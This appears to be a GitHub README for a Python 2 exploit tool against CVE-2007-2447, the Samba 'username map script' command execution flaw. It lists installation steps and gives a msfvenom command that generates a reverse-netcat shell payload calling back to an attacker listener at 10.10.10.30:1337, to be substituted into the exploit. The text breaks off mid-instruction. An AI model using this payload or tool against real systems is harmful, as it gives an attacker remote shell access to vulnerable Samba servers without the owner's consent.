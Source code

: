 # smb-usermap-destroyer
Smb Usermap Destoyer is a python2 exploit for 𝗖𝗩𝗘-𝟮𝟬𝟬𝟳-𝟮𝟰𝟰𝟳 ('𝗨𝘀𝗲𝗿𝗻𝗮𝗺𝗲' 𝗺𝗮𝗽 𝘀𝗰𝗿𝗶𝗽𝘁 𝗖𝗼𝗺𝗺𝗮𝗻𝗱 𝗘𝘅𝗲𝗰𝘂𝘁𝗶𝗼𝗻).
I created my own python script to automate the attack and avoid the exploitation with msfconsole.

Before use the exploit install the following requirements:

➡ Install python2:
    apt install python

➡ Install pip:
    apt install python-pip (If you can't find python-pip package try donwload pip insytaller from: https://bootstrap.pypa.io/get-pip.py).

➡ Install with pip the pysmb implementation:
    pip install --user pysmb
        
Shellcode generation and configuration:

• Create your own Shellcode with your host and port:
    
𝗺𝘀𝗳𝘃𝗲𝗻𝗼𝗺 -𝗽 𝗰𝗺𝗱/𝘂𝗻𝗶𝘅/𝗿𝗲𝘃𝗲𝗿𝘀𝗲_𝗻𝗲𝘁𝗰𝗮𝘁 𝗟𝗛𝗢𝗦𝗧=𝟭𝟬.𝟭𝟬.𝟭𝟬.𝟯𝟬 𝗟𝗣𝗢𝗥𝗧=𝟭𝟯𝟯𝟳 -𝘃 𝘀𝗵𝗲𝗹𝗹𝗰𝗼𝗱𝗲 -𝗳 𝗽𝘆𝘁𝗵𝗼𝗻
    
• Then repllace the default.
